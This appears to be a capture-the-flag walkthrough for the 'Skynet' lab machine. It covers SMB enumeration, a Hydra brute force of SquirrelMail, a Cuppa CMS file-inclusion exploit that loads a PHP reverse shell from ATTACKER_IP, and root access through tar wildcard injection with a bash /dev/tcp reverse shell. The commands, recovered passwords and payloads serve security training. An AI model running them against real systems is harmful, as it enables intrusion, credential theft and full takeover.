

# Skynet (SMB and Cron)

### **Skynet** 

[MITRE ATT\&CK Enterprise tactics](https://attack.mitre.org/tactics/enterprise/)

### **Reconnaissance (ID: TA0043)** 

#### **Scan using Nmap (Active Scanning: Vulnerability Scanning (T1595.002))** 

nmap -Pn -O -p- -sV -sC -oN TARGET\_IP.nmap TARGET\_IP

* \-Pn scan without pinging.
* \-O attempts to discover which OS is running.
* \-p- scan all ports.
* \-sV gather details about services and applications running on identified open ports.
* \-sC use default safe scripts for scan.
* \-oN output resuits in default/normal format.

Starting Nmap 7.60 ( https://nmap.org ) at 2024-03-01 10:02 GMT

Warning: 10.10.9.168 giving up on port because retransmission cap hit (2).

Nmap scan report for ip-10-10-9-168.eu-west-1.compute.internal (10.10.9.168)

Host is up (0.00038s latency).

Not shown: 65528 closed ports

PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

\| ssh-hostkey:

\| 2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)

\| 256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)

|\_ 256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (EdDSA)

80/tcp open http Apache httpd 2.4.18 ((Ubuntu))

|\_http-server-header: Apache/2.4.18 (Ubuntu)

|\_http-title: Skynet

110/tcp open pop3 Dovecot pop3d

|\_pop3-capabilities: CAPA SASL AUTH-RESP-CODE TOP RESP-CODES UIDL PIPELINING

139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

143/tcp open imap Dovecot imapd

|\_imap-capabilities: SASL-IR more post-login OK ID have ENABLE LOGINDISABLEDA0001 LOGIN-REFERRALS listed capabilities IMAP4rev1 Pre-login IDLE LITERAL+

445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

65403/tcp filtered unknown

MAC Address: 02:FC:A9:D7:37:E3 (Unknown)

Device type: general purpose

Running: Linux 3.X

OS CPE: cpe:/o:linux:linux\_kernel:3.13

OS details: Linux 3.13

Network Distance: 1 hop

Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux\_kernel

Host script results:

|\_clock-skew: mean: -1s, deviation: 0s, median: -1s

|\_nbstat: NetBIOS name: SKYNET, NetBIOS user: \<unknown>, NetBIOS MAC: \<unknown> (unknown)

\| smb-os-discovery:

\| OS: Windows 6.1 (Samba 4.3.11-Ubuntu)

\| Computer name: skynet

\| NetBIOS computer name: SKYNET\x00

\| Domain name: \x00

\| FQDN: skynet

|\_ System time: 2024-03-01T04:05:52-06:00

\| smb-security-mode:

\| account\_used: guest

\| authentication\_level: user

\| challenge\_response: supported

|\_ message\_signing: disabled (dangerous, but default)

\| smb2-security-mode:

\| 2.02:

|\_ Message signing enabled but not required

\| smb2-time:

\| date: 2024-03-01 10:05:53

|\_ start\_date: 1600-12-31 23:58:45

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 192.94 seconds

**SSH**

* OpenSSH 7.2p2 is vulnerable to exploitable[ CVE-2016-6210](https://nvd.nist.gov/vuln/detail/CVE-2016-6210).

sshd in OpenSSH before 7.3, when SHA256 or SHA512 are used for user password hashing, uses BLOWFISH hashing on a static password when the username does not exist, which allows remote attackers to enumerate users by leveraging the timing difference between responses when a large password is provided.

* [OpenSSH 7.2p2 - Username Enumeration](https://www.exploit-db.com/exploits/40136)
* [OpenSSHd 7.2p2 - Username Enumeration](https://www.exploit-db.com/exploits/40113).

**HTTP**

* Browse to http://TARGET\_IP.[ .png>)\
  ](https://private-user-images.githubusercontent.com/157394432/309217215-064deb75-0b00-4063-a3a9-235970473303.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MTMyNjk5MTUsIm5iZiI6MTcxMzI2OTYxNSwicGF0aCI6Ii8xNTczOTQ0MzIvMzA5MjE3MjE1LTA2NGRlYjc1LTBiMDAtNDA2My1hM2E5LTIzNTk3MDQ3MzMwMy5wbmc\_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNDE2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDQxNlQxMjEzMzVaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT00YmQyODc3ZTc0ZjlhNDhiMTM0M2RiNGM3Mzg5MDc3ZTJlNDAxMTk3YzQ5NTA5NWEyMjJjYTIyYjkyMGYyNjdjJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.S8WggfB36K8qEt-dDUuUFe2JGs9V7ZZGcusWE\_D1Gkg)
* Nmap vuln script identified possible CSRF vulnerabilities.

Path: http://ip-10-10-9-168.eu-west-1.compute.internal/#

Form id:

Form action: #

* Apache 2.4.18 is vulnerable to a number of expolits.
  * [CVE-2021-44790](https://nvd.nist.gov/vuln/detail/CVE-2021-44790).
    * [Apache 2.4.x - Buffer Overflow](https://www.exploit-db.com/exploits/51193).
  * [CVE-2019-0211](https://nvd.nist.gov/vuln/detail/CVE-2019-0211).
    * [Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation](https://www.exploit-db.com/exploits/46676).

#### **Use GoBuster to search for hidden directories (Reconnaissance: Wordlist Scanning (T1595.003))** 

gobuster dir --url http://TARGET\_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt > gobuster.txt

\[snip...]

/admin (Status: 301)

/css (Status: 301)

/js (Status: 301)

/config (Status: 301)

/ai (Status: 301)

/squirrelmail (Status: 301)

/server-status (Status: 403)

\[snip...]

**POP3**

* Dovecot pop3d.

**SMB**

* netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

#### **Enumerate target host for SMB Shares (Active Scanning (T1595)** 

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN TARGET\_IP\_smb\_scan.nmap TARGET\_IP

Nmap scan report for ip-10-10-9-168.eu-west-1.compute.internal (10.10.9.168)

Host is up (0.00013s latency).

PORT STATE SERVICE

445/tcp open microsoft-ds

MAC Address: 02:FC:A9:D7:37:E3 (Unknown)

Host script results:

\| smb-enum-shares:

\| account\_used: guest

\| \\\10.10.9.168\IPC$:

\| Type: STYPE\_IPC\_HIDDEN

\| Comment: IPC Service (skynet server (Samba, Ubuntu))

\| Users: 2

\| Max Users: \<unlimited>

\| Path: C:\tmp

\| Anonymous access: READ/WRITE

\| Current user access: READ/WRITE

\| \\\10.10.9.168\anonymous:

\| Type: STYPE\_DISKTREE

\| Comment: Skynet Anonymous Share

\| Users: 0

\| Max Users: \<unlimited>

\| Path: C:\srv\samba

\| Anonymous access: READ/WRITE

\| Current user access: READ/WRITE

\| \\\10.10.9.168\milesdyson:

\| Type: STYPE\_DISKTREE

\| Comment: Miles Dyson Personal Share

\| Users: 0

\| Max Users: \<unlimited>

\| Path: C:\home\milesdyson\share

\| Anonymous access: \<none>

\| Current user access: \<none>

\| \\\10.10.9.168\print$:

\| Type: STYPE\_DISKTREE

\| Comment: Printer Drivers

\| Users: 0

\| Max Users: \<unlimited>

\| Path: C:\var\lib\samba\printers

\| Anonymous access: \<none>

|\_ Current user access: \<none>

\| smb-enum-users:

\| SKYNET\milesdyson (RID: 1000)

\| Full name:

\| Description:

|\_ Flags: Normal user account

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds

**IMAP**

* Dovecot pop3d.

### **Initial Access (ID: TA0001)** 

#### **Inspect "/anonymous" SMB share (Gather Victim Identity Information (T1589.001)** 

smbclient //TARGET\_IP/anonymous

WARNING: The "syslog" option is deprecated

Enter WORKGROUP\root's password:

Try "help" to get a list of possible commands.

smb: \\> dir

. D 0 Thu Nov 26 16:04:00 2020

.. D 0 Tue Sep 17 08:20:17 2019

attention.txt N 163 Wed Sep 18 04:04:59 2019

logs D 0 Wed Sep 18 05:42:16 2019

#### **Recursively download \anonymous share (Collection: Data from Network Shared Drive (T1039))** 

* Submit username and password as nothing.

smbget -R smb://TARGET\_IP/anonymous

Password for \[guest] connecting to //anonymous/10.10.9.168:

Using workgroup WORKGROUP, user guest

smb://10.10.9.168/anonymous/attention.txt

smb://10.10.9.168/anonymous/logs/log2.txt

smb://10.10.9.168/anonymous/logs/log1.txt

smb://10.10.9.168/anonymous/logs/log3.txt

Downloaded 634b in 1 seconds

* Contents of "attention.txt".

A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this. -Miles Dyson

* "log1.txt" contains potential list of passwords.

#### **Brute force Squirrelmail login page using Hydra (Credential Access: Password Guessing (T1110.001))** 

1. Open Developer Tools in browser > Network tab.
2. Browse to http://TARGET\_IP/squirrelmail.
3. Enter any credentials on login page > Login.
4. Right click on "redirect.php" POST request > "Edit and Resend".
5. Populate Hydra command.
   * Login or Wordlist for Usernames = milesdyson.
     * Login identified via target host SMB enumeration.
   * Password or Wordlist for Passwords = ./logs/log1/txt.
     * Wordlist downloaded from target host's /anonymous SMB share.
   * IP address or Hostname = TARGET\_IP.
   * HTTP Method (POST/GET) = http-form-post.
   * Directory/Path to the Login Page = /squirrelmail/src/redirect.php.
     * "Filename" value within POST request header.
   * Request Body for Username/Password = login\_username=testname\&secretkey=testpass\&js\_autodetect\_results=1\&just\_logged\_in=1.
     * Body of New "redirect.php" POST Request created with "Edit and Resend".
   * Way to Identify Failed Attempts = Unknown user or password incorrect.
     * SquirrelMail browser error message when login fails. 6 Execute Hydra.

hydra -l milesdyson -P ./logs/log1.txt TARGET\_IP -V http-form-post "/squirrelmail/src/redirect.php:login\_username=^USER^\&secretkey=^PASS^\&js\_autodetect\_results=1\&just\_logged\_in=1:Unknown User or password incorrect."

\[snip ...]

\[80]\[http-post-form] host: 10.10.9.168 login: milesdyson password: cyborg007haloterminator

#### **Log into SquirrelMail using milesdyson credentials (Initial Access: Local Accounts (T1078.003))** 

* "Samba Password reset" email in inbox.

We have changed your smb password after system malfunction. Password: )s{A&2Z=F^n\_E.B\`

#### **Inspect Miles Dyson Personal SMB Share (Initial Access: Domain Accounts (T1078.002))** 

* \-U specifies username otherwise WORKGROUP\root is used.

smbclient -U milesdyson //TARGET\_IP/milesdyson

WARNING: The "syslog" option is deprecated

Enter WORKGROUP\milesdyson's password:

Try "help" to get a list of possible commands.

smb: \\> dir

. D 0 Tue Sep 17 10:05:47 2019

.. D 0 Wed Sep 18 04:51:03 2019

Improving Deep Neural Networks.pdf N 5743095 Tue Sep 17 10:05:14 2019

Natural Language Processing-Building Sequence Models.pdf N 12927230 Tue Sep 17 10:05:14 2019

Convolutional Neural Networks-CNN.pdf N 19655446 Tue Sep 17 10:05:14 2019

notes D 0 Tue Sep 17 10:18:40 2019

Neural Networks and Deep Learning.pdf N 4304586 Tue Sep 17 10:05:14 2019

Structuring your Machine Learning Project.pdf N 3531427 Tue Sep 17 10:05:14 2019

9204224 blocks of size 1024. 5701580 blocks available

#### **Recursively download \milesdyson share ((Collection: Data from Network Shared Drive (T1039))** 

smbget -U milesdyson -R smb://TARGET\_IP/milesdyson

* "important.txt" file located in /notes directory.

1. Add features to beta CMS /45kra24zxs28v3yd

* Browse to http://TARGET\_IP/45kra24zxs28v3yd
  * Nothing unusual in page source.

#### **Use GoBuster to search for hidden directories (Reconnaissance: Wordlist Scanning (T1595.003))** 

gobuster dir --url http://TARGET\_IP/45kra24zxs28v3yd -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt > gobuster\_cms.txt

\[snip ...]

/administrator (Status: 301)

* Browse to http://TARGET\_IP/45kra24zxs28v3yd/administrator
  * "Cuppa CMS" login page.[ ](https://private-user-images.githubusercontent.com/157394432/309262566-7460db7e-58bb-40cf-9648-85e2e7009ff1.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MTMyNjk5MTUsIm5iZiI6MTcxMzI2OTYxNSwicGF0aCI6Ii8xNTczOTQ0MzIvMzA5MjYyNTY2LTc0NjBkYjdlLTU4YmItNDBjZi05NjQ4LTg1ZTJlNzAwOWZmMS5wbmc\_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNDE2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDQxNlQxMjEzMzVaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT1lZTYwODAzNGRhOWEwZWUwYmVjNWVkYmFhNDIyOTg4YmQwNDZhMzNmMDdmM2FlNTdhNjc3YTM2YTM2MDFmMWIzJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.28EWv4-uqhnKHUPJk\_vw1MZhrq7lOKKnBi2R-wv-5tQ)
  * Default admin / admin credentials from[ Cuppa Documentation](https://www.cuppacms.com/en/docs/installation) do not work.
  * Search for exploitable vulnerabilites.
    * [Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion](https://www.exploit-db.com/exploits/25971).

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

* Verify exploit functionality.

curl http://TARGET\_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Field configuration:

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false \_apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:113:121::/var/spool/postfix:/bin/false mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false

#### **Include remote file for malicious purposes using remote files inclusion (RFI) (Execution: Exploitation for Client Execution (T1203))** 

1. Create copy of php-reverse-shell.php.

cp /usr/share/webshells/php/php-reverse-shell.php ./

* Change IP of php-reverse-shell.php to attack host.

1. Create netcat listener.

nc -lvnp 1234

1. Serve php-reverse-shell.php to target host.

python3 -m http.server

1. Amend exploitable URL to include hosted reverse shell.

curl http://TARGET\_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ATTACKER\_IP:8000/php-reverse-shell.php

* Target host requests php-reverse-shell.php.

10.10.9.168 - - \[01/Mar/2024 13:09:52] "GET /php-reverse-shell.php HTTP/1.0" 200 -

* Reverse shell caught by listener.

Connection from 10.10.9.168 39380 received!

Linux skynet 4.8.0-58-generic #63\~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86\_64 x86\_64 x86\_64 GNU/Linux

07:09:51 up 4:47, 0 users, load average: 0.00, 0.00, 0.00

USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0: can't access tty; job control turned off

$ whoami

www-data

1. Upgrade to interactive tty shell.

python -c 'import pty;pty.spawn("/bin/bash")'

1. Find user flag.

find / -name user.txt 2>/dev/null

### **Privilege Escalation (ID: TA0004)** 

* List all commands www-data user can run using sudo.

sudo -l

\[sudo] password for www-data:

* No delegated sudo privileges.
* Enumerate crontab.

cat /etc/crontab

\# m h dom mon dow user command

\*/1 \* \* \* \* root /home/milesdyson/backups/backup.sh

\[snip ...]

* "/home/milesdyson/backups/backup.sh" runs every minute as root.

ls -la /home/milesdyson/backups/

\[snip...]

drwxr-xr-x 2 root root 4096 Sep 17 2019 backups

\[snip ...]

ls -la /home/milesdyson/backups/

\[snip ...]

\-rwxr-xr-x 1 root root 74 Sep 17 2019 backup.sh

\-rw-r--r-- 1 root root 4679680 Mar 1 16:26 backup.tgz

* No privileges to rename or create files.
* Check contents of "backup.sh".

\#!/bin/bash

cd /var/www/html

tar cf /home/milesdyson/backups/backup.tgz \*

* Script changes directory to "/var/www/html" then uses "tar" to compress content of the directory into a file called "backup.tgz" at "/home/milesdyson/backups".
* Checked GTFOBins for tar exploits.

[**Shell**](https://gtfobins.github.io/gtfobins/tar/#shell). It can be used to break out from restricted environments by spawning an interactive system shell. tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh.

#### **"Tar" allows the usage of 2 options that can be used for poisoning in order to force the binary to execute unintended actions (Execution: Command and Scripting Interpreter: Unix Shell (T1059.004))** 

* checkpoint\[=NUMBER] displays progress messages every NUMBERth record (default value is 10).
* checkpoint-action=ACTION executes said ACTION on each checkpoint.
* Action is executed with permissions of user running command - root in this case.

1. Create privileged reverse shell.

printf '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER\_IP/6666 0>&1' > /var/www/html/shell

chmod +x /var/www/html/shell

touch /var/www/html/--checkpoint=1

touch /var/www/html/--checkpoint-action=exec=bash\ shell

1. Create netcat listener.

nc -lvnp 6666

* Reverse shell caught by listener.

Connection from TARGET\_IP 55874 received!

bash: cannot set terminal process group (4836): Inappropriate ioctl for device

bash: no job control in this shell

whoami

root

1. Find root flag.

find / -name root.txt -type f 2>/dev/null
